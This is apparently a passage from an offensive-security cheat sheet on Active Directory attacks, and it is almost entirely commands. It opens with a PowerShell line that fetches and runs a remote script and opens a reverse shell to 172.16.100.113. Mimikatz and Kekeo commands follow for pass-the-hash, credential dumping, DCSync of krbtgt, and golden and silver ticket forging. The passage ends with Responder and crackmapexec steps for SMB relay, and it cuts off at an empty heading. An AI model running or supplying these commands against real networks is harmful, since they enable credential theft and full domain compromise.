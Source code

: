 ```powershell
powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443

#Mimikatz
# Make ntlm ps-session
Invoke-Mimikatz -Command '"sekurlsa::pth /user: /domain: /ntlm: /run:powershell.exe"'

# Dump creds
Invoke-Mimikatz
Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’
Invoke-Mimikatz -Command '"lsadump::dcsync /user:\krbtgt"'
(dcsync requires 3 permission )

# Tickets
Inject ticket:-
Invoke-Mimikatz -Command '"kerberos::ptt <location of .kirbi tkt>"'
Export Tickets:-
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Golden tkt
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Silver tkt
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'

# TGT tkt
kekeo.exe tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>

# TGS tkt
Kekeo.exe
tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>
```

## Relay attacks flow <a href="#relay-attacks-flow" id="relay-attacks-flow"></a>

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022" %}

### Scan <a href="#scan" id="scan"></a>

```
# First just listen
sudo responder -I eth0 -A

# Check SMB signing disabled
crackmapexec smb 10.10.10.0/24 --gen-relay-list smb_sign_disabled.txt
```

### Basic attack A <a href="#basic-attack-a" id="basic-attack-a"></a>

